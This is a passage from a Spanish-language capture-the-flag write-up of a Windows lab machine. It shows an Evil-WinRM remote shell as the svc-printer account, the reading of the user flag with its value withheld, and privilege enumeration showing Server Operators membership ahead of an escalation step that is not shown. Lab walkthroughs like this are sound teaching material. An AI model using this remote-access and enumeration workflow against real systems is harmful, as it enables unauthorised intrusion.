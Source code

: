 ~~~bash
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante winrm, obteniendo asi la user flag.
~~~powershell
*Evil-WinRM* PS C:\Users\svc-printer> tree /f
Folder PATH listing
Volume serial number is 3A0C-428E
C:.
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\svc-printer> cd desktop
*Evil-WinRM* PS C:\Users\svc-printer\desktop> type user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios

### Revisión de permisos y/o privilegios
Revisando los privilegios del usuario se pueden ver algunos que son interesantes.
~~~powershell
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
~~~